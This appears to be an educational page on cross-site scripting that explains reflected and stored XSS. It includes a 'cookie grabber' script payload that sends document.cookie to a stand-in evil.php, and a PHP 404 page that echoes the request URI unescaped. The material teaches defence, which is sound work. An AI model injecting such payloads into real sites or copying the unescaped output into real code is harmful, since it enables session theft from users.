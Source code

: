 As the examples demonstrate, XSS vulnerabilities are caused by code that includes unvalidated data in an HTTP response. There are three vectors by which an XSS attack can reach a victim:

- As in Example 1, data is read directly from the HTTP request and reflected back in the HTTP response. Reflected XSS exploits occur when an attacker causes a user to supply dangerous content to a vulnerable web application, which is then reflected back to the user and executed by the web browser. The most common mechanism for delivering malicious content is to include it as a parameter in a URL that is posted publicly or e-mailed directly to victims. URLs constructed in this manner constitute the core of many phishing schemes, whereby an attacker convinces victims to visit a URL that refers to a vulnerable site. After the site reflects the attacker’s content back to the user, the content is executed and proceeds to transfer private information, such as cookies that may include session information, from the user’s machine to the attacker or perform other nefarious activities.
- As in Example 2, the application stores dangerous data in a database or other trusted data store. The dangerous data is subsequently read back into the application and included in dynamic content. Stored XSS exploits occur when an attacker injects dangerous content into a data store that is later read and included in dynamic content. From an attacker’s perspective, the optimal place to inject malicious content is in an area that is displayed to either many users or particularly interesting users. Interesting users typically have elevated privileges in the application or interact with sensitive data that is valuable to the attacker. If one of these users executes malicious content, the attacker may be able to perform privileged operations on behalf of the user or gain access to sensitive data belonging to the user.
- A source outside the application stores dangerous data in a database or other data store, and the dangerous data is subsequently read back into the application as trusted data and included in dynamic content.

### Attack Examples

**Example 1: Cookie Grabber**

If the application doesn’t validate the input data, the attacker can easily steal a cookie from an authenticated user. All the attacker has to do is to place the following code in any posted input(ie: message boards, private messages, user profiles):

```html
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

The above code will pass an escaped content of the cookie (according to RFC content must be escaped before sending it via HTTP protocol with GET method) to the evil.php script in “cakemonster” variable. The attacker then checks the results of their evil.php script (a cookie grabber script will usually write the cookie to a file) and use it.

### Error Page Example

Let’s assume that we have an error page, which is handling requests for a non existing pages, a classic 404 error page. We may use the code below as an example to inform user about what specific page is missing:

```html
<html>
<body>
<?php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```
